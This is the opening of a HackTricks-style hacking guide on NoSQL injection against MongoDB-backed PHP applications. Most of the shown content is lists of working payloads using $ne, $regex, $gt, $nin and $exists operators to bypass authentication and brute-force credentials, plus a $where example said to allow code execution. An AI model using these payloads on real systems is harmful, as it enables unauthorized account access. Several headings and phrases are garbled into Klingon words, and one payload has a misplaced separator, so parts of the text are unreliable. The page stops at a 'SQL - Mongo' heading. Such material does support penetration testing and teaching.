 # NoSQL injection

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) **ghItlh** **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>


## Exploit

In PHP you can send an Array changing the sent parameter from _parameter=foo_ to _parameter\[arrName]=foo._

The exploits are based in adding an **Operator**:
```bash
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
username[$eq]=admin&password[$ne]=1 #<Equals>
username[$ne]=admin&pass[$lt]=s #<Less than>, Brute-force pass[$lt] to find more users
username[$ne]=admin&pass[$gt]=s #<Greater Than>
username[$nin][admin]=admin&username[$nin][test]=test&pass[$ne]=7 #<Matches non of the values of the array> (not test and not admin)
{ $where: "this.credits == this.debits" }#<IF>, can be used to execute code
```
### QaStaHvIS authentication bypass

**not equal ($ne) yInob greater ($gt) vaj lo'wI'**
```bash
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```
### **SQL - Mongo**
